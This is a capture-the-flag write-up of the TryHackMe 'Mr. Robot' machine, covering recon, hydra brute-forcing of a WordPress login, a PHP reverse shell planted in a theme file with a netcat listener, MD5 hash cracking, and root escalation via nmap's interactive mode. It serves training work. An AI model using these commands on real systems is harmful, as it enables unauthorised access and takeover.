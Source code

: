 ```yaml
---
title: THM - Mr. Robot
description: TryHackMe write-up of Mr. Robot room
author: z3nn
date: 2020-09-28 18:48:02 +0300
categories: []
tags: [pentest,  linux,  wordpress,  mr. robot,  security]
---
```


# THM - Mr. Robot

A write-up to the `Mr. Robot` machine provided by [TryHackMe](https://tryhackme.com/). This machine is rated as a `Medium` difficulty... Let's get to it.

## Recon
Running an nmap scan for first recon on this room to see what ports are open, what services are running on it... etc
```
# Nmap 7.80 scan initiated Mon Sep 28 17:11:55 2020 as: nmap -sS -sV -oA robot-vuln -p- -T5 --script=default,vuln -Pn 10.10.42.60
Nmap scan report for 10.10.42.60
Host is up (0.050s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.42.60
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-passwd: ERROR: Script execution failed (use -d to debug)
|_http-server-header: Apache
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: Site doesn't have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| http-csrf:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.42.60
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-passwd: ERROR: Script execution failed (use -d to debug)
|_http-server-header: Apache
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_sslv2-drown:

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 28 17:23:43 2020 -- 1 IP address (1 host up) scanned in 708.02 seconds
```

... what comes next is not so technical... while `gobuster` was running I started clicking stuff around and trying to access pages here and there... and I ended up on a `Wordpress` 404 page. After this I took a look at gobuster and what do you know, we have `/wp-content` and other Wordpress related paths.

`gobuster` also returned a `/robots` path which after accessing is just the `/robots.txt` file.
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Looks like we got our first key.

`fsocity.dic` seems to be a custom word dictionary that might be usefull to us so we will download it on our machine using `wget`

WPScan revealed a good detail about this web app
```
# using 2015 theme
WordPress theme in use: twentyfifteen
 | Location: http://10.10.42.60/wp-content/themes/twentyfifteen/
```

## Foothold

Since there's not much else to go on from here and I already am under the impression that we'll have to reverse shell our way in from the Wordpress theme it's time to `brute force` our way in.

### Username

We don't know what username we need to use so we will have to brutefoce that also... using the dictionary kindly provided by the web app: `fsocity.dic`

```
hydra -L fsocity.dic -p test 10.10.42.60 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username"
```
- we will use `fsocity.dic` to check for possible usernames
- we will be looking for an _incorrect password_ message to know we have the right user


After running for a bit we have our user:
```
[80][http-post-form] host: 10.10.42.60   login: Elliot   password: test
```

Now it's time to try and bruteforce the password... one good tip I received here was to filter out the dictionary for duplicates and entries that wouldn't match a password cryteria (a minimum of x character)


```
hydra -l Elliot -P fsocity.dic2 10.10.42.60 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:S=302"
```

After a _long time_ we get the password and we can now login in the wordpress app.


## Exploit

I looked around the Wordpress dashboard and couldn't find anything interesting... other then the fact that Elliot's therapist is subscribed to his blog.

I used PentestMonkey's [PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) to add it do the 404.php code of Wordpress theme and accessed a random page that would return a 404 error.


```
$ nc -lnvp 8585
listening on [any] 8585 ...
connect to [10.11.14.38] from (UNKNOWN) [10.10.42.60] 58713
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 15:13:58 up  1:04,  0 users,  load average: 5.43, 5.10, 4.63
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
daemon
```
We're in... time to upgrade this shell to something _nicer_, I would say that I used my own [Cheatsheet](https://7a336e6e.github.io/posts/pentest-cheatsheet/#upgrading-a-reverse-shell) for this but the reality is that I've done this thing so many times that I know it _by heart_

## 2nd Flag

Manual _enumeration_ revealed this system has a user `robot` and his `/home` has a few interesting files:
```
daemon@linux:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
```

Now we can't read `key-2-of-3.txt` unfortunately...yet. But we can read `password.raw-md5`

```
daemon@linux:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Here we can either ask John to do our work for us or use Hashcat, it's up to your own choice and prefferences... but we get the password for `robot` and therefore we get `key-2-of-3`


## Privesc

In order for us to get the 3rd and final flag we need to escalate our privileges to `root`, which I assume has the 3rd and final flag.

Now I had a bit of a hard time to find a place to get `linpeas.sh` as this user's `/home` was owned by root and we didn't have write access to it... bummer~

I managed to find a nice and cozy place in `/var/run/shm` where I downloaded `linpeas.sh` from my own machine and executed it.

Now running linpeas we see the ubuntu version is being flagged right away with the _RED/YELLOW_ marker as a _99% PE vector_ ... which it might be, but the way to root is far more easy... Just a few more lines below we see that our user can execute `nmap`. We can open an interactive nmap shell from which we can switch to a `root` shell and therefore get our final flag.

```
robot@linux:/var/run/shm$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# whoami
root
# cd /root
# ls -la
total 32
drwx------  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
-rw-------  1 root root 4058 Nov 14  2015 .bash_history
-rw-r--r--  1 root root 3274 Sep 16  2015 .bashrc
drwx------  2 root root 4096 Nov 13  2015 .cache
-rw-r--r--  1 root root    0 Nov 13  2015 firstboot_done
-r--------  1 root root   33 Nov 13  2015 key-3-of-3.txt
-rw-r--r--  1 root root  140 Feb 20  2014 .profile
-rw-------  1 root root 1024 Sep 16  2015 .rnd
```

And we got our 3rd and final key and this box is **OWNED**

